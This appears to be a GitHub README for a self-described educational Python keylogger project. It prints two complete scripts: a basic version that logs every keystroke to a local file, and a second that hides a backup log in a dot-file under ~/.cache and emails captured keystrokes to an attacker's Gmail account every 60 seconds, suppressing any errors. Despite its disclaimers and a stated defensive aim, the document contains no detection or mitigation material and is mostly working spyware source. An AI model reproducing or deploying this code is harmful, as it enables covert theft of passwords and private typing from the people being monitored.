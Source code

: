 # 🕵️‍♂️ Python Keylogger Simulation — Educational Project

![Python](https://img.shields.io/badge/Made%20with-Python-blue) 
![Status](https://img.shields.io/badge/Status-%20Development-orange)
![License](https://img.shields.io/badge/License-Educational%20Use-green)

---

## 🎯 About This Project

This repository demonstrates how **keylogging techniques work** from an attacker's perspective and more importantly, how defenders can detect and mitigate them.

**⚠️ For Educational & Ethical Research Purposes Only!**  
This project was created to **learn, simulate, and defend** — NOT for illegal usage.

---

## 🚀 Project Structure

| Version | Description |
|:-:|:-|
| **v1** | Basic keylogger — captures keystrokes and stores them locally in a `.txt` file |
| **v2** | Enhanced keylogger — captures keystrokes & exfiltrates logs to an email account + saves hidden backup log |

---

## 📄 Code

### 🔥 Version 1 — Basic Keylogger
```python
from pynput import keyboard

def on_press(key):
    with open("keylog.txt", "a") as log:
        try:
            log.write(f"{key.char}")
        except AttributeError:
            log.write(f" [{key}] ")

listener = keyboard.Listener(on_press=on_press)
listener.start()
listener.join()
```

<p align="justify"> <b>📝 Explanation:</b><br> This is a very basic Python keylogger that captures every keystroke entered by the user. It uses the <code>pynput</code> library to listen to keyboard events and stores the logs in a local file named <code>keylog.txt</code>. Special keys like Enter, Space, or Ctrl are stored in <code>[KEY]</code> format. </p>


🔥 Version 2 — Keylogger with Email Exfiltration
```python
import pynput.keyboard
import threading
import smtplib
import os

log = ""
log_dir = os.path.expanduser("~/.cache")
os.makedirs(log_dir, exist_ok=True)
log_file = os.path.join(log_dir, ".syslog_hidden")

def on_press(key):
    global log
    try:
        log += key.char
    except AttributeError:
        log += f" [{key}] "

def send_mail():
    global log
    if log:
        try:
            server = smtplib.SMTP("smtp.gmail.com", 587)
            server.starttls()
            server.login("attackerEmail@gmail.com", "attackerPassword")
            server.sendmail("attackerEmail@gmail.com", "attackerEmail@gmail.com", log)
            server.quit()
        except:
            pass
        with open(log_file, "a") as f:
            f.write(log + "\n")
        log = ""
    
    timer = threading.Timer(60, send_mail)
    timer.start()

keyboard_listener = pynput.keyboard.Listener(on_press=on_press)
keyboard_listener.start()
send_mail()
keyboard_listener.join()
```

<p align="justify"> <b>📝 Explanation:</b><br> This enhanced version of the keylogger not only captures every keystroke but also sends the recorded logs to an attacker's Gmail account every 60 seconds using the <code>smtplib</code> module. Additionally, it saves a backup copy of the logs in a hidden file <code>.syslog_hidden</code> under the user's <code>.cache</code> directory. The script uses multithreading to send logs without interrupting the keylogging process. </p>


☕️ Support My Cybersecurity Learning Journey
If you found this project useful or educational, you can buy me a coffee!
<p align="center">
  <a href="https://buymeacoffee.com/sudersen" target="_blank">
    <img src="https://cdn.buymeacoffee.com/buttons/v2/default-yellow.png" height="50" width="210" alt="Buy Me A Coffee" />
  </a>
</p>


⚠️ Disclaimer
This project is strictly for educational and research purposes only.
I do not endorse, promote, or encourage illegal activities or malicious use of this code.
The creator of this repository is not responsible for any misuse or damage caused.

Use this project only in your own sandboxed environment or virtual machines. Unauthorized usage is a criminal offense.

📩 Feedback & Collaboration
If you're interested in collaborating, learning, or enhancing detection techniques — feel free to connect on LinkedIn or drop a message.
🔗 [LinkedIn: Sudersen](https://www.linkedin.com/in/drsudersen)  

